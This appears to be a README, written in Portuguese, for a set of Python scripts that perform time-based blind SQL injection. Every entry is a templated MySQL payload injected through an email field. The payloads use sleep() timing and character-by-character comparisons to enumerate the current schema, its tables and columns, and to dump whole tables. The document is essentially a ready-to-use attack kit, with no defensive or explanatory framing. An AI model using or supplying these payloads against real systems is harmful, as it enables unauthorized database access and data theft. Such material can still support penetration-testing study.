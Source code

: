 # SQLi

# Time Based

## Payloads
## SQLi_single_value.py
- Obter o primeiro valor de um campo específico da tabela:
`hacker@mail.com' or if(ascii(substring((select {coluna} from {tabela} limit 1),{i},1))={ord(c)}, sleep(5), 0) #`
- Obter uma linha específica de uma tabela:
`hacker@mail.com' or if(ascii(substring((select {coluna} from {tabela} limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

## SQLi_enum_schema.py
- Obter tamanho do schema atual:
`hacker@mail.com' or if(length(database())={tamanho}, sleep(2), 0) #`
- Obter nome do schema atual:
`hacker@mail.com' or if(ascii(substring(database(),{i},1))={ord(c)}, sleep(5), 0) #`
- Obter tabelas de um schema:
`hacker@mail.com' or if(ascii(substring((select table_name from information_schema.tables where table_schema = "{schema}" limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`
- Obter colunas da tabela:
`hacker@mail.com' or if(ascii(substring((select column_name from information_schema.columns where table_name = '{tabela}' limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

## SQLi_dump.py
- Obter todos valores de uma tabela:
`hacker@mail.com' or if(ascii(substring((select {coluna} from {tabela} limit 1 offset {linha}),{i},1))={ord(c)}, sleep(5), 0) #`

